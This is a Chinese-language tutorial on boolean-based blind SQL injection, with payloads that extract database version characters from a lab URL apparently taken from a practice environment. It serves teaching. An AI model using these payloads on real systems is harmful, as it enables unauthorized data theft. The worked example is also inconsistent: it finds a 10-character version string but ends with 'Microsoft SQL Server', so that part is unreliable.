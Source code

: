 布尔盲注（Boolean-based Blind SQL Injection）是一种 SQL 注入攻击技术，利用数据库查询的布尔逻辑（真/假）来推断数据库中的数据。它适用于无法直接看到查询结果的场景，例如页面只返回“成功”或“失败”等简单状态。以下是布尔盲注的原理、步骤和示例。

------

### **原理**

布尔盲注的核心思想是通过构造特定的 SQL 注入语句，观察应用程序的响应是否发生变化（例如页面内容、状态码或响应时间），从而推断数据库中的数据。攻击者通过逐位或逐字符猜测数据，利用布尔条件（真/假）来确认猜测是否正确。

关键点：

1. 数据库查询的返回值会影响应用程序的行为（例如页面是否显示正常）。
2. 攻击者通过注入条件语句（如 AND 1=1 或 AND ASCII(SUBSTR(...)) > 65），观察响应变化来推断数据。
3. 通常需要多次请求，逐一测试每个字符或位的值。

------

### **步骤**

**确认注入点：**

找到一个可以注入 SQL 语句的参数（例如 URL 参数、表单输入等）。

测试注入点是否支持布尔逻辑，例如：

```sql
id=1 AND 1=1  -- 返回正常页面 

id=1 AND 1=2  -- 返回异常页面（如错误或空白）
```

如果响应不同，说明存在布尔盲注的可能性。

**确定查询逻辑：**

通过注入布尔条件，观察页面响应是否变化。例如：

```sql
id=1 AND (SELECT 1)=1  -- 页面正常 

id=1 AND (SELECT 1)=2  -- 页面异常
```

确认可以通过布尔条件控制页面行为。

**推断数据：**

使用条件语句逐一猜测数据库中的数据，通常结合以下函数：

> SUBSTR 或 SUBSTRING：提取字符串的子串。
>
> ASCII 或 CHAR：将字符转换为 ASCII 值或反之。
>
> LENGTH：获取字符串长度。
>
> \>, <, =：比较值。
>

示例：推断数据库版本的第一个字符：

`id=1 AND ASCII(SUBSTR((SELECT @@version), 1, 1)) > 65`

> 如果页面正常，说明第一个字符的 ASCII 值大于 65（即大于 'A'）。
>
> 继续调整比较值（如 > 66, = 66），缩小范围，直到确定具体字符。

**自动化或手动枚举：**

手动测试效率低，通常使用二分法或自动化工具（如 Burp Suite、SQLMap）来加速猜测。

例如，通过二分法确定 ASCII 值：

```sql
id=1 AND ASCII(SUBSTR((SELECT @@version), 1, 1)) > 100  -- 正常 
id=1 AND ASCII(SUBSTR((SELECT @@version), 1, 1)) > 110  -- 异常
```

说明 ASCII 值在 100 到 110 之间，继续细分。

**提取完整数据：**

重复上述步骤，逐位提取字符串（如表名、列名、数据内容）。

例如，提取整个数据库版本字符串需要循环测试每个位置的字符。

------

### **示例**

假设有一个 Web 应用，URL 为：

```
http://10.16.2.3:8081/Less-8?id=1
```

目标是提取数据库的版本信息（@@version）。

**测试注入点：**

```sql
http://10.16.2.3:8081/Less-8?id=1 AND 1=1
*页面正常显示。*

http://10.16.2.3:8081/Less-8?id=1 AND 1=2
*页面显示错误或空白。*
*确认存在布尔盲注漏洞。*
```

**确定版本字符串长度：**

```sql
`http://10.16.2.3:8081/Less-8?id=1 AND LENGTH((SELECT @@version)) = 10`
*页面正常，说明版本字符串长度为 10。*
*如果不正常，尝试其他长度（如 9、11）。*
```

**提取第一个字符：**

```sql
http://10.16.2.3:8081/Less-8?id=1 AND ASCII(SUBSTR((SELECT @@version), 1, 1)) > 65
*页面正常，说明第一个字符的 ASCII 值大于 65。*

http://10.16.2.3:8081/Less-8?id=1 AND ASCII(SUBSTR((SELECT @@version), 1, 1)) = 77
*页面正常，说明第一个字符的 ASCII 值是 77（即 'M'）。*
*确认第一个字符为 'M'。*
```

**提取后续字符：**

> 重复步骤，测试 SUBSTR((SELECT @@version), 2, 1)、 SUBSTR((SELECT @@version), 3, 1) 等。
>
> 最终可能提取到版本字符串，如 Microsoft SQL Server。

------

### **特点与难点**

特点：

> 不需要直接看到查询结果，适合“盲”场景。
>
> 依赖应用程序的响应差异（页面内容、HTTP 状态码等）。
>
> 可以通过自动化工具高效执行。

难点：

> 需要多次请求，效率较低（尤其手动测试时）。
>
> 响应差异可能微妙（如仅文本变化），需要仔细分析。
>
> 可能受限于网络延迟或应用程序的防御机制（如 WAF）。